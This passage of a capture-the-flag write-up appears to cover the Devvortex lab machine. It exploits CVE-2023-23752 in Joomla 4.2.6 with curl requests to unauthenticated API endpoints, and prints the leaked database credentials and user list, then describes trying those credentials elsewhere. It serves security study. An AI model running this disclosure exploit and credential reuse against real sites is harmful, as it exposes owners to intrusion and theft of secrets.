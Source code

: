 We can see that the version is `4.2.6`. Let's search for vulnerabilities in this version.

### Joomla Vulnerabilities

An article that I came across discusses CVE-2023-23752 to Code Execution #1:

[Joomla RCE](https://www.vulncheck.com/blog/joomla-for-rce)

```json
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

We were able to leak the Joomla MySQL database credentials. 

`lewis:P4ntherg0t1n5r3c0n##`

Since we weren't able to see any exposed 3306 port, we can't really use these credentials to connect to the database directly. But there is a possibility of credentials reuse. We could try to use them on SSH or web applications.

The CMS does accept the creds.

We can also leak the user database:

```json
curl http://dev.devvortex.htb/api/index.php/v1/users?public=true            
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2025-08-10 11:05:12","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}
```
